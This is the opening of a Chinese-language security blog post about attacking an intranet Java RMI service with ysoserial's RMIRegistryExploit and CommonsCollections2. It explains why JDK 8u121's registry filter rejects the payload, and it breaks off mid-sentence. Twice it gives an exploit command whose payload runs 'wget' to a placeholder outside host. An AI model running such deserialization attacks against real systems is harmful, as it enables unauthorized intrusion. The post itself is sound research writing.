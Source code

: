 ```yaml
---
layout: post  
title: "一次攻击内网rmi服务的深思"  
date: 2018-09-20
description: "java安全"
tag: java安全
---
```


## 说明

在日常扫描内网服务器的时候发现有几台主机开放了rmi服务，根据以往经验rmi服务存在反序列化漏洞，本以为可以直接拿ysoserial一把梭直接干。

![](http://ohsqlm7gj.bkt.clouddn.com/18-9-20/41797551.jpg)

java -cp ysoserial.exploit.RMIRegistryExploit 10.9.15.193 9999 CommonsCollections2 "wget http://xxxxx:3344"

以往都成功过，但是这次居然爆出了filter status: REJECTED

![](http://ohsqlm7gj.bkt.clouddn.com/18-9-20/78251456.jpg)

出现这种情况的原因是[java 8 update 121]之后[RMIRegistryImpl.registryFilter()](http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/file/5534221c23fc/src/share/classes/sun/rmi/registry/RegistryImpl.java#l388) 的限制http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/file/5534221c23fc/src/share/classes/sun/rmi/registry/RegistryImpl.java#l388

可以看到在idk8 update 121之后在registryFilter函数中限制了类型。

![](http://ohsqlm7gj.bkt.clouddn.com/18-9-20/10387266.jpg)

本地写个rmi注册服务模拟下:

```
public static void main(String[] args) throws RemoteException, AlreadyBoundException, MalformedURLException {
    //System.setProperty("sun.rmi.registry.registryFilter", "java.util.HashMap;");
    //System.setProperty("sun.rmi.registry.registryFilter", "java.util.HashMap;sun.reflect.annotation.**;");
    //System.setProperty("sun.rmi.registry.registryFilter", "java.**;sun.reflect.annotation.**;com.sun.**");
    //System.setProperty("sun.rmi.registry.registryFilter", "org.apache.commons.collections4.comparators.TransformingComparator");
    HelloService helloService = new HelloServiceImpl();
    LocateRegistry.createRegistry(12306);
    Naming.bind("rmi://localhost:12306/helloService", helloService);
    System.out.println("ServerMain provide RPC service now");

}
```

启动之后用java -cp ysoserial.exploit.RMIRegistryExploit 127.0.0.1 12306 CommonsCollections2 "wget http://xxxxx:3344"去攻击发现服务端爆出
